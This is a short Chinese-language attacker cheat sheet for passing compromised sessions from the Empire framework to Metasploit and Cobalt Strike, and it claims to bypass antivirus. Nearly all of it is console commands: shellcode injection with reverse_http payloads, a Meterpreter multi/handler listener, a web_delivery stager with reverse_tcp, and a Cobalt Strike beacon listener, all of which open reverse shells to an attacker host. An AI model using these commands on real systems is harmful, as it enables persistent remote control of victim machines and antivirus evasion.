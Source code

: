   ##### 派生MSF
	可绕过杀软
	Empire
	>usemodule code_execution/invoke_shellcode
	>set Lhost 192.168.0.1
	>set Lport 4444
	>set Payload reverse_http
	MSF
	>use exploit/multi/handler
	>set payloadwindows/meterpreter/reverse_http
	>set Lhost 192.168.31.247
	>set lport 4444
	>run
	或Empire
	>usemodule code_execution/invoke_metasploitpayload
	>set URL http://SRVHOST:SRVPORT
	MSF
	>use exploit/multi/script/web_delivery
	>set payload windows/x64/meterpreter/reverse_tcp
	设置SRVHOST SRVPORT
  ##### 派生Cobalt Strike
	创建监听器/windows/beacon_http/reverse_http 设置端口和主机
	Empire
	>usemodule code_execution/invoke_shellcode
	>set Lhost 192.168.0.1
	>set Lport 4444
	>set Payload reverse_http